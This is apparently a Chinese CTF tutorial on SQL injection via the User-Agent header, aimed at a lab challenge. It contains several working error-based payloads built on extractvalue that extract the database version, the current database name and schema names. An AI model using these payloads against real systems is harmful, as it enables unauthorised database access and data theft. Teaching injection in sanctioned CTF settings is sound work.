

# sql注入之user-agent注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、什么是user-agent

user-agent中文名称是用户代理，他的主要目的是来让服务器端知道一些客户的终端信息。比如:操作系统版本、浏览器及版本，CPU类型等等。然后根据这些内容来返回不同的内容。

举一个简单的例子,同一个网站用手机访问和电脑返回界面是不一样。这里就是user-agen头起的作用。

## 三、user-agent 注入

user-agent注入同cookie注入类似，注入的前提是服务器段讲客户的user-agent信息存入数据库中。我们看一下我们靶场赛题的源码。

在上图，我们可以看到，讲user-agent存入了数据库中。

## 四、实战链接

>https://t.zsxq.com/qbMvFYf

## 五、注入实战

1.本次课程我们依旧采用上节课中的报错注入。

exp如下:

>'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1

2.查询数据库版本

3.查询当前全部的数据库名称

>User-Agent: 'and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1

4.查询当前全部的数据库名称

>User-Agent: 'and extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit 2,1 ),0x7e)) and '1'='1

改变limit函数的值，即可查询全部的值。

5.剩余内容内容的查询请大家自行动手尝试。

## 六、赛题地址：

>http://39.98.88.18/challenges#sql%E6%B3%A8%E5%85%A5%E4%B9%8Buser-agent%E6%B3%A8%E5%85%A5

## 七、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

